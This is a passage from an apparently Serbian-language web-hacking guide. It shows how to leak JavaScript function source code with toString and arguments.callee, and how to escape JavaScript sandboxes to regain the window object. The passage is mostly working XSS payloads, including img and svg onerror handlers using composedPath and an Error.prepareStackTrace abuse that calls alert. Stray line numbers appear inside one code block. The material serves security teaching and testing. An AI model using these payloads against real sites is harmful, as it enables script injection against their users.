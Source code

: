 ### Curenje koda funkcije

Ako možete **pristupiti objektu** funkcije, možete **dobiti kod** te funkcije.
```javascript
function afunc(){
return 1+1;
}
console.log(afunc.toString()); //This will print the code of the function
console.log(String(afunc)); //This will print the code of the function
console.log(this.afunc.toString()); //This will print the code of the function
console.log(global.afunc.toString()); //This will print the code of the function
```
U slučajevima kada **funkcija nema ime**, još uvek možete prikazati **kod funkcije** iznutra:
```javascript
(function (){ return arguments.callee.toString(); })()
(function (){ return arguments[0]; })("arg0")
```
Neki **slučajni** načini za **izdvajanje koda** funkcije (čak i komentara) iz druge funkcije:
```javascript
(function (){ return retFunc => String(arguments[0]) })(a=>{/* Hidden commment */})()
(function (){ return retFunc => Array(arguments[0].toString()) })(a=>{/* Hidden commment */})()
(function (){ return String(this)}).bind(()=>{ /* Hidden commment */ })()
(u=>(String(u)))(_=>{ /* Hidden commment */ })
(u=>_=>(String(u)))(_=>{ /* Hidden commment */ })()
```
## Sandbox Escape - Povratak window objekta

Objekat Window omogućava pristup globalno definisanim funkcijama kao što su alert ili eval.

{% code overflow="wrap" %}
```javascript
// Some ways to access window
window.eval("alert(1)")
frames
globalThis
parent
self
top //If inside a frame, this is top most window

// Access window from document
document.defaultView.alert(1)
// Access document from a node object
node = document.createElement('div')
node.ownerDocument.defaultView.alert(1)

// There is a path property on each error event whose last element is the window
<img src onerror=event.path.pop().alert(1337)>
// In other browsers the method is
<img src onerror=event.composedPath().pop().alert(1337)>
// In case of svg, the "event" object is called "evt"
<svg><image href=1 onerror=evt.composedPath().pop().alert(1337)>

// Abusing Error.prepareStackTrace to get Window back
Error.prepareStackTrace=function(error, callSites){
2   callSites.shift().getThis().alert(1337);
3 };
4 new Error().stack

// From an HTML event
// Events from HTML are executed in this context
with(document) {
with(element) {
//executed event
}
```